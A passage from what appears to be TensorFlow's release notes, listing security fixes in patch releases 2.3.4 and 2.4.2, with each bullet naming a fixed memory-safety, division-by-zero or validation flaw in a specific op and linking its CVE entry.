    ([CVE-2021-37639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37639))
*   Fixes an integer division by 0 in sparse reshaping
    ([CVE-2021-37640](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37640))
*   Fixes a division by 0 in `ResourceScatterDiv`
    ([CVE-2021-37642](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37642))
*   Fixes a heap OOB in `RaggedGather`
    ([CVE-2021-37641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37641))
*   Fixes a `std::abort` raised from `TensorListReserve`
    ([CVE-2021-37644](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37644))
*   Fixes a null pointer dereference in `MatrixDiagPartOp`
    ([CVE-2021-37643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37643))
*   Fixes an integer overflow due to conversion to unsigned
    ([CVE-2021-37645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37645))
*   Fixes a bad allocation error in `StringNGrams` caused by integer conversion
    ([CVE-2021-37646](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37646))
*   Fixes a null pointer dereference in `SparseTensorSliceDataset`
    ([CVE-2021-37647](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37647))
*   Fixes an incorrect validation of `SaveV2` inputs
    ([CVE-2021-37648](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37648))
*   Fixes a null pointer dereference in `UncompressElement`
    ([CVE-2021-37649](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37649))
*   Fixes a segfault and a heap buffer overflow in
    `{Experimental,}DatasetToTFRecord`
    ([CVE-2021-37650](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37650))
*   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
    ([CVE-2021-37651](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37651))
*   Fixes a use after free in boosted trees creation
    ([CVE-2021-37652](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37652))
*   Fixes a division by 0 in `ResourceGather`
    ([CVE-2021-37653](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37653))
*   Fixes a heap OOB and a `CHECK` fail in `ResourceGather`
    ([CVE-2021-37654](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37654))
*   Fixes a heap OOB in `ResourceScatterUpdate`
    ([CVE-2021-37655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37655))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `RaggedTensorToSparse`
    ([CVE-2021-37656](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37656))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `MatrixDiagV*` ops
    ([CVE-2021-37657](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37657))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `MatrixSetDiagV*` ops
    ([CVE-2021-37658](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37658))
*   Fixes an undefined behavior arising from reference binding to nullptr and
    heap OOB in binary cwise ops
    ([CVE-2021-37659](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37659))
*   Fixes a division by 0 in inplace operations
    ([CVE-2021-37660](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37660))
*   Fixes a crash caused by integer conversion to unsigned
    ([CVE-2021-37661](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37661))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    boosted trees
    ([CVE-2021-37662](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37662))
*   Fixes a heap OOB in boosted trees
    ([CVE-2021-37664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37664))
*   Fixes vulnerabilities arising from incomplete validation in `QuantizeV2`
    ([CVE-2021-37663](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37663))
*   Fixes vulnerabilities arising from incomplete validation in MKL
    requantization
    ([CVE-2021-37665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37665))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `RaggedTensorToVariant`
    ([CVE-2021-37666](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37666))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    unicode encoding
    ([CVE-2021-37667](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37667))
*   Fixes an FPE in `tf.raw_ops.UnravelIndex`
    ([CVE-2021-37668](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37668))
*   Fixes a crash in NMS ops caused by integer conversion to unsigned
    ([CVE-2021-37669](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37669))
*   Fixes a heap OOB in `UpperBound` and `LowerBound`
    ([CVE-2021-37670](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37670))
*   Fixes an undefined behavior arising from reference binding to nullptr in map
    operations
    ([CVE-2021-37671](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37671))
*   Fixes a heap OOB in `SdcaOptimizerV2`
    ([CVE-2021-37672](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37672))
*   Fixes a `CHECK`-fail in `MapStage`
    ([CVE-2021-37673](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37673))
*   Fixes a vulnerability arising from incomplete validation in `MaxPoolGrad`
    ([CVE-2021-37674](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37674))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    shape inference
    ([CVE-2021-37676](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37676))
*   Fixes a division by 0 in most convolution operators
    ([CVE-2021-37675](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37675))
*   Fixes vulnerabilities arising from missing validation in shape inference for
    `Dequantize`
    ([CVE-2021-37677](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37677))
*   Fixes an arbitrary code execution due to YAML deserialization
    ([CVE-2021-37678](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37678))
*   Fixes a heap OOB in nested `tf.map_fn` with `RaggedTensor`s
    ([CVE-2021-37679](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37679))
*   Fixes a division by zero in TFLite
    ([CVE-2021-37680](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37680))
*   Fixes an NPE in TFLite
    ([CVE-2021-37681](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37681))
*   Fixes a vulnerability arising from use of unitialized value in TFLite
    ([CVE-2021-37682](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37682))
*   Fixes an FPE in TFLite division operations
    ([CVE-2021-37683](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37683))
*   Fixes an FPE in TFLite pooling operations
    ([CVE-2021-37684](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37684))
*   Fixes an infinite loop in TFLite
    ([CVE-2021-37686](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37686))
*   Fixes a heap OOB in TFLite
    ([CVE-2021-37685](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37685))
*   Fixes a heap OOB in TFLite's `Gather*` implementations
    ([CVE-2021-37687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37687))
*   Fixes an undefined behavior arising from null pointer dereference in TFLite
    ([CVE-2021-37688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37688))
*   Fixes an undefined behavior arising from null pointer dereference in TFLite
    MLIR optimizations
    ([CVE-2021-37689](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37689))
*   Fixes a FPE in LSH in TFLite
    ([CVE-2021-37691](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37691))
*   Fixes a segfault on strings tensors with mismatched dimensions, arising in
    Go code
    ([CVE-2021-37692](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37692))
*   Fixes a use after free and a potential segfault in shape inference functions
    ([CVE-2021-37690](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37690))
*   Updates `curl` to `7.77.0` to handle
    [CVE-2021-22876](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22876),
    [CVE-2021-22897](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22897),
    [CVE-2021-22898](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22898),
    and
    [CVE-2021-22901](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22901).

# Release 2.3.4

This release introduces several vulnerability fixes:

*   Fixes a heap out of bounds access in sparse reduction operations
    ([CVE-2021-37635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37635))
*   Fixes a floating point exception in `SparseDenseCwiseDiv`
    ([CVE-2021-37636](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37636))
*   Fixes a null pointer dereference in `CompressElement`
    ([CVE-2021-37637](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37637))
*   Fixes a null pointer dereference in `RaggedTensorToTensor`
    ([CVE-2021-37638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37638))
*   Fixes a null pointer dereference and a heap OOB read arising from operations
    restoring tensors
    ([CVE-2021-37639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37639))
*   Fixes an integer division by 0 in sparse reshaping
    ([CVE-2021-37640](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37640))
*   Fixes a division by 0 in `ResourceScatterDiv`
    ([CVE-2021-37642](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37642))
*   Fixes a heap OOB in `RaggedGather`
    ([CVE-2021-37641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37641))
*   Fixes a `std::abort` raised from `TensorListReserve`
    ([CVE-2021-37644](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37644))
*   Fixes a null pointer dereference in `MatrixDiagPartOp`
    ([CVE-2021-37643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37643))
*   Fixes an integer overflow due to conversion to unsigned
    ([CVE-2021-37645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37645))
*   Fixes a bad allocation error in `StringNGrams` caused by integer conversion
    ([CVE-2021-37646](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37646))
*   Fixes a null pointer dereference in `SparseTensorSliceDataset`
    ([CVE-2021-37647](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37647))
*   Fixes an incorrect validation of `SaveV2` inputs
    ([CVE-2021-37648](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37648))
*   Fixes a null pointer dereference in `UncompressElement`
    ([CVE-2021-37649](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37649))
*   Fixes a segfault and a heap buffer overflow in
    `{Experimental,}DatasetToTFRecord`
    ([CVE-2021-37650](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37650))
*   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
    ([CVE-2021-37651](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37651))
*   Fixes a use after free in boosted trees creation
    ([CVE-2021-37652](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37652))
*   Fixes a division by 0 in `ResourceGather`
    ([CVE-2021-37653](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37653))
*   Fixes a heap OOB and a `CHECK` fail in `ResourceGather`
    ([CVE-2021-37654](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37654))
*   Fixes a heap OOB in `ResourceScatterUpdate`
    ([CVE-2021-37655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37655))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `RaggedTensorToSparse`
    ([CVE-2021-37656](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37656))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `MatrixDiagV*` ops
    ([CVE-2021-37657](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37657))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `MatrixSetDiagV*` ops
    ([CVE-2021-37658](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37658))
*   Fixes an undefined behavior arising from reference binding to nullptr and
    heap OOB in binary cwise ops
    ([CVE-2021-37659](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37659))
*   Fixes a division by 0 in inplace operations
    ([CVE-2021-37660](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37660))
*   Fixes a crash caused by integer conversion to unsigned
    ([CVE-2021-37661](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37661))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    boosted trees
    ([CVE-2021-37662](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37662))
*   Fixes a heap OOB in boosted trees
    ([CVE-2021-37664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37664))
*   Fixes vulnerabilities arising from incomplete validation in `QuantizeV2`
    ([CVE-2021-37663](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37663))
*   Fixes vulnerabilities arising from incomplete validation in MKL
    requantization
    ([CVE-2021-37665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37665))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `RaggedTensorToVariant`
    ([CVE-2021-37666](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37666))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    unicode encoding
    ([CVE-2021-37667](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37667))
*   Fixes an FPE in `tf.raw_ops.UnravelIndex`
    ([CVE-2021-37668](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37668))
*   Fixes a crash in NMS ops caused by integer conversion to unsigned
    ([CVE-2021-37669](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37669))
*   Fixes a heap OOB in `UpperBound` and `LowerBound`
    ([CVE-2021-37670](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37670))
*   Fixes an undefined behavior arising from reference binding to nullptr in map
    operations
    ([CVE-2021-37671](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37671))
*   Fixes a heap OOB in `SdcaOptimizerV2`
    ([CVE-2021-37672](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37672))
*   Fixes a `CHECK`-fail in `MapStage`
    ([CVE-2021-37673](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37673))
*   Fixes a vulnerability arising from incomplete validation in `MaxPoolGrad`
    ([CVE-2021-37674](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37674))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    shape inference
    ([CVE-2021-37676](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37676))
*   Fixes a division by 0 in most convolution operators
    ([CVE-2021-37675](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37675))
*   Fixes vulnerabilities arising from missing validation in shape inference for
    `Dequantize`
    ([CVE-2021-37677](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37677))
*   Fixes an arbitrary code execution due to YAML deserialization
    ([CVE-2021-37678](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37678))
*   Fixes a heap OOB in nested `tf.map_fn` with `RaggedTensor`s
    ([CVE-2021-37679](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37679))
*   Fixes a division by zero in TFLite
    ([CVE-2021-37680](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37680))
*   Fixes an NPE in TFLite
    ([CVE-2021-37681](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37681))
*   Fixes a vulnerability arising from use of unitialized value in TFLite
    ([CVE-2021-37682](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37682))
*   Fixes an FPE in TFLite division operations
    ([CVE-2021-37683](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37683))
*   Fixes an FPE in TFLite pooling operations
    ([CVE-2021-37684](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37684))
*   Fixes an infinite loop in TFLite
    ([CVE-2021-37686](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37686))
*   Fixes a heap OOB in TFLite
    ([CVE-2021-37685](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37685))
*   Fixes a heap OOB in TFLite's `Gather*` implementations
    ([CVE-2021-37687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37687))
*   Fixes an undefined behavior arising from null pointer dereference in TFLite
    ([CVE-2021-37688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37688))
*   Fixes an undefined behavior arising from null pointer dereference in TFLite
    MLIR optimizations
    ([CVE-2021-37689](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37689))
*   Fixes a FPE in LSH in TFLite
    ([CVE-2021-37691](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37691))
*   Fixes a segfault on strings tensors with mismatched dimensions, arising in
    Go code
    ([CVE-2021-37692](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37692))
*   Fixes a use after free and a potential segfault in shape inference functions
    ([CVE-2021-37690](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37690))
*   Updates `curl` to `7.77.0` to handle
    [CVE-2021-22876](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22876),
    [CVE-2021-22897](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22897),
    [CVE-2021-22898](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22898),
    and
    [CVE-2021-22901](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22901).

# Release 2.4.2

This release introduces several vulnerability fixes:

*   Fixes a heap buffer overflow in `RaggedBinCount`
    ([CVE-2021-29512](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29512))
*   Fixes a heap out of bounds write in `RaggedBinCount`
    ([CVE-2021-29514](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29514))
*   Fixes a type confusion during tensor casts which leads to dereferencing null
    pointers
    ([CVE-2021-29513](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29513))
*   Fixes a reference binding to null pointer in `MatrixDiag*` ops
    ([CVE-2021-29515](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29515))
*   Fixes a null pointer dereference via invalid Ragged Tensors
    ([CVE-2021-29516](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29516))
*   Fixes a division by zero in `Conv3D`
    ([CVE-2021-29517](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29517))
*   Fixes vulnerabilities where session operations in eager mode lead to null
    pointer dereferences
    ([CVE-2021-29518](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29518))
*   Fixes a `CHECK`-fail in `SparseCross` caused by type confusion
    ([CVE-2021-29519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29519))
*   Fixes a segfault in `SparseCountSparseOutput`
    ([CVE-2021-29521](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29521))
*   Fixes a heap buffer overflow in `Conv3DBackprop*`
    ([CVE-2021-29520](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29520))
*   Fixes a division by 0 in `Conv3DBackprop*`
    ([CVE-2021-29522](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29522))
*   Fixes a `CHECK`-fail in `AddManySparseToTensorsMap`
    ([CVE-2021-29523](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29523))
*   Fixes a division by 0 in `Conv2DBackpropFilter`
    ([CVE-2021-29524](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29524))
*   Fixes a division by 0 in `Conv2DBackpropInput`
    ([CVE-2021-29525](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29525))
*   Fixes a division by 0 in `Conv2D`
    ([CVE-2021-29526](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29526))
*   Fixes a division by 0 in `QuantizedConv2D`
    ([CVE-2021-29527](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29527))
*   Fixes a division by 0 in `QuantizedMul`
    ([CVE-2021-29528](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29528))
*   Fixes vulnerabilities caused by invalid validation in
    `SparseMatrixSparseCholesky`
    ([CVE-2021-29530](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29530))
*   Fixes a heap buffer overflow caused by rounding
    ([CVE-2021-29529](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29529))
*   Fixes a `CHECK`-fail in `tf.raw_ops.EncodePng`
    ([CVE-2021-29531](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29531))
*   Fixes a heap out of bounds read in `RaggedCross`
    ([CVE-2021-29532](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29532))
*   Fixes a `CHECK`-fail in `DrawBoundingBoxes`
    ([CVE-2021-29533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29533))
*   Fixes a heap buffer overflow in `QuantizedMul`
    ([CVE-2021-29535](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29535))
*   Fixes a `CHECK`-fail in `SparseConcat`
    ([CVE-2021-29534](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29534))
*   Fixes a heap buffer overflow in `QuantizedResizeBilinear`
    ([CVE-2021-29537](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29537))
*   Fixes a heap buffer overflow in `QuantizedReshape`
    ([CVE-2021-29536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29536))
*   Fixes a division by zero in `Conv2DBackpropFilter`
    ([CVE-2021-29538](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29538))
*   Fixes a heap buffer overflow in `Conv2DBackpropFilter`
    ([CVE-2021-29540](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29540))
*   Fixes a heap buffer overflow in `StringNGrams`
    ([CVE-2021-29542](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29542))
*   Fixes a null pointer dereference in `StringNGrams`
    ([CVE-2021-29541](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29541))
*   Fixes a `CHECK`-fail in `QuantizeAndDequantizeV4Grad`
    ([CVE-2021-29544](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29544))
*   Fixes a `CHECK`-fail in `CTCGreedyDecoder`
    ([CVE-2021-29543](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29543))
*   Fixes a heap buffer overflow in `SparseTensorToCSRSparseMatrix`
    ([CVE-2021-29545](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29545))
*   Fixes a division by 0 in `QuantizedBiasAdd`
    ([CVE-2021-29546](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29546))
*   Fixes a heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`
    ([CVE-2021-29547](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29547))
*   Fixes a division by 0 in `QuantizedBatchNormWithGlobalNormalization`
    ([CVE-2021-29548](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29548))
*   Fixes a division by 0 in `QuantizedAdd`
    ([CVE-2021-29549](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29549))
*   Fixes a division by 0 in `FractionalAvgPool`
    ([CVE-2021-29550](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29550))
*   Fixes an OOB read in `MatrixTriangularSolve`
    ([CVE-2021-29551](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29551))
*   Fixes a heap OOB in `QuantizeAndDequantizeV3`
    ([CVE-2021-29553](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29553))
*   Fixes a `CHECK`-failure in `UnsortedSegmentJoin`
    ([CVE-2021-29552](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29552))
*   Fixes a division by 0 in `DenseCountSparseOutput`
    ([CVE-2021-29554](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29554))
*   Fixes a division by 0 in `FusedBatchNorm`
    ([CVE-2021-29555](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29555))
*   Fixes a division by 0 in `SparseMatMul`
    ([CVE-2021-29557](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29557))
*   Fixes a division by 0 in `Reverse`
    ([CVE-2021-29556](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29556))
*   Fixes a heap buffer overflow in `SparseSplit`
    ([CVE-2021-29558](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29558))
*   Fixes a heap OOB access in unicode ops
    ([CVE-2021-29559](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29559))
*   Fixes a heap buffer overflow in `RaggedTensorToTensor`
    ([CVE-2021-29560](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29560))
*   Fixes a `CHECK`-fail in `LoadAndRemapMatrix`
    ([CVE-2021-29561](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29561))
*   Fixes a `CHECK`-fail in `tf.raw_ops.IRFFT`
    ([CVE-2021-29562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29562))
*   Fixes a `CHECK`-fail in `tf.raw_ops.RFFT`
    ([CVE-2021-29563](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29563))
*   Fixes a null pointer dereference in `EditDistance`
    ([CVE-2021-29564](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29564))
*   Fixes a null pointer dereference in `SparseFillEmptyRows`
    ([CVE-2021-29565](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29565))
*   Fixes a heap OOB access in `Dilation2DBackpropInput`
    ([CVE-2021-29566](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29566))
*   Fixes a reference binding to null in `ParameterizedTruncatedNormal`
    ([CVE-2021-29568](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29568))
*   Fixes a set of vulnerabilities caused by lack of validation in
    `SparseDenseCwiseMul`
    ([CVE-2021-29567](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29567))
*   Fixes a heap out of bounds read in `MaxPoolGradWithArgmax`
    ([CVE-2021-29570](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29570))
*   Fixes a heap out of bounds read in `RequantizationRange`
    ([CVE-2021-29569](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29569))
*   Fixes a memory corruption in `DrawBoundingBoxesV2`
    ([CVE-2021-29571](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29571))
*   Fixes a reference binding to nullptr in `SdcaOptimizer`
    ([CVE-2021-29572](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29572))
*   Fixes an overflow and a denial of service in `tf.raw_ops.ReverseSequence`
    ([CVE-2021-29575](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29575))
*   Fixes a division by 0 in `MaxPoolGradWithArgmax`
    ([CVE-2021-29573](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29573))
*   Fixes an undefined behavior in `MaxPool3DGradGrad`
    ([CVE-2021-29574](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29574))
*   Fixes a heap buffer overflow in `MaxPool3DGradGrad`
    ([CVE-2021-29576](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29576))
*   Fixes a heap buffer overflow in `AvgPool3DGrad`
    ([CVE-2021-29577](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29577))
*   Fixes an undefined behavior and a `CHECK`-fail in `FractionalMaxPoolGrad`
    ([CVE-2021-29580](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29580))
*   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
    ([CVE-2021-29578](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29578))
*   Fixes a heap buffer overflow in `MaxPoolGrad`
